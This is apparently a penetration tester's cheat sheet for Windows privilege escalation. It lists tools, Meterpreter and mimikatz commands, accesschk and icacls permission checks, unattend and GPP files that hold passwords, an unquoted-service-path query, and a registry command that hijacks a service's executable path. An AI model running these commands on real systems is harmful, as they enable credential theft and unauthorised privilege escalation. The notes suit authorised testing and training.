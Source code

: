 # Meterpreter

``` getsystem ```

``` load module mimikatz ```

# PrivescCheck

|PrivescCheck||
|--- |--- |
|https://github.com/itm4n/PrivescCheck||
|Written in PowerShell||

# WinPEASS

|WinPEASS||
|--- |--- |
|https://github.com/carlospolop/PEASS-ng||
|Comes in both compiled (exe) and batch file||
|GitHub repo also contains LinPEASS||

|Commands|Notes|
|--- |--- |
|winpeas.exe quiet servicesinfo|Gets information about running/installed services|
|||
|||

# MimiKatz

|MimiKatz||
|--- |--- |
|Has a Meterpreter Module||
|Compiled Binary and dll libraries||

# PsExec.py

|PsExec.py||
|https://github.com/SecureAuthCorp/impacket||
|Used to get PowerShell shell on remote windows system(s) (Can be used to spray credentials)||

# Unattended Install Files

|Locations||
|--- |--- |
|C:\Windows\sysprep\||
|C:\Windows\sysprep.inf||
|C:\Windows\Panther\Unattend\||
|C:\Windows\System32\Sysprep\||
|C:\Windows\System32\Sysprep\Panther\||

## Check these for passwords! They're base64 encoded.

# Group Policy Preference Files

## These store encrypted credentials.. but Microsoft published the key..
### GPP Metasploit Module

# Weak Permissions
## Note: Included in SysInternals tools

``` accesschk.exe ```

## Check user access to services

``` accesschk.exe -uwcqv Users *```

``` accesschk.exe -uwcqv "Authenticated Users" * ```

``` accesschk.exe -uwcqv "Everyone" * ```

## Check folder permissions for users (per drive)

``` accesschk.exe -uwdqs Users c:\ ```

``` accesschk.exe -uwdqs "Authenticated Users" c:\ ```

``` accesschk.exe -uwdqs "Everyone" c:\ ```

## Check File Permissions for users (per drive)

``` accesschk.exe -uwqs Users c:\*.* ```

``` accesschk.exe -uwqs "Authenticated Users" c:\*.* ```

``` accesschk.exe -uwqs "Everyone" c:\*.* ```


|ICACLS||
|--- |--- |
|Command | Notes| 
|--- |--- |
|``` icacls $PATHTOEXE 2>nul ```| Can be piped to findstr to filter out results|

|ICACLS Permission Legend||
|--- |--- |
|(F)|Full Access|
|(M)|Modify Access|
|(RX)|Read and Execute Access|
|(R)|Read-Only Access|
|(W)|Write-Only Access|

## LOLBAS

|LOLBAS||
|--- |--- |
|https://lolbas-project.github.io/||
|Living Off The Land Binaries, Scripts, and Libraries||
|Web Interface||


## Check global objects editable by Everyone

``` accesschk -wuo everyone \basednamedobjects ```

## Check Registry Settings

### Note: Service Registry Keys are stored in: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services

# Unquoted Service Path

```wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """```

### PowerShell

``` Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\Service | fl ```

#### Add Registry Key

``` reg add "HKLM\SYSTEM\CurrentControlSet\services\service" /v ImagePath /t REG_EXPAND_SZ /d $PATHTOEXECUTABLE /f ```

# Automation

## BeRoot

|BeRoot||
|--- |--- |
|https://github.com/AlessandroZ/BeRoot||

## Watson

|Watson||
|--- |--- |
|https://github.com/rasta-mouse/Watson||

## PowerSploit

|PowerSploit||
|--- |--- |
|https://github.com/PowerShellMafia/PowerSploit||
